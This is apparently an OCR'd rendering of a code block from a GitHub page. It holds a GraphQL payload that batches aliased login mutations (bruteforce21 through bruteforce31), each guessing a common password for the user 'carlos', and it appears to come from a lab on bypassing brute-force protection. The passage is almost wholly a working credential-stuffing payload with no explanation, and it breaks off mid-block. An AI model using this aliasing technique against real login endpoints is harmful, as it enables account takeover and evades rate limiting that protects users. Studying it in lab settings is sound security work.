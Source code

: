 ```bash
bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
```